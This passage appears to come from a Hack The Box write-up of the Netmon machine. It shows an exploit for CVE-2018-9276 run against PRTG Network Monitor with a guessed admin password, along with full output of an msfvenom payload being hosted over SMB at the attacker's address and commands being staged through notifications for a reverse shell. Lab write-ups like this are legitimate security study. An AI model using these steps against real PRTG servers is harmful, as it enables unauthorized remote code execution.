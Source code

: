 The password was incorrect

```bash
┌──(bravosec㉿fsociety)-[~/htb/Netmon/CVE-2018-9276]
└─$ python exploit.py -i netmon -p 80 --lhost 10.10.16.13 --lport 1111 --user prtgadmin --password 'PrTg@dmin2018'
```

![](/assets/obsidian/6b7f561a5ffc226689fe4d8a9ebd99c9.png)

Since the backup file was created at `2018` but current config file was from `2019`, tried `PrTg@dmin2019` and it worked

```bash
┌──(bravosec㉿fsociety)-[~/htb/Netmon/CVE-2018-9276]
└─$ python exploit.py -i netmon -p 80 --lhost 10.10.16.13 --lport 1111 --user prtgadmin --password 'PrTg@dmin2019'
[+] [PRTG/18.1.37.13946] is Vulnerable!

[*] Exploiting [netmon:80] as [prtgadmin/PrTg@dmin2019]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] File staged at [C:\Users\Public\tester.txt] successfully with objid of [2020]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Notification with objid [2020] staged for execution
[*] Generate msfvenom payload with [LHOST=10.10.16.13 LPORT=1111 OUTPUT=/tmp/afemevxu.dll]
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 9216 bytes
/home/kali/htb/Netmon/CVE-2018-9276/exploit.py:294: DeprecationWarning: setName() is deprecated, set the name attribute instead
  impacket.setName('Impacket')
/home/kali/htb/Netmon/CVE-2018-9276/exploit.py:295: DeprecationWarning: setDaemon() is deprecated, set the daemon attribute instead
  impacket.setDaemon(True)
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Hosting payload at [\\10.10.16.13\RFYZXAYR]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Command staged at [C:\Users\Public\tester.txt] successfully with objid of [2021]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Notification with objid [2021] staged for execution
[*] Attempting to kill the impacket thread
[-] Impacket will maintain its own thread for active connections, so you may find it's still listening on <LHOST>:445!
[-] ps aux | grep <script name> and kill -9 <pid> if it is still running :)
[-] The connection will eventually time out.

```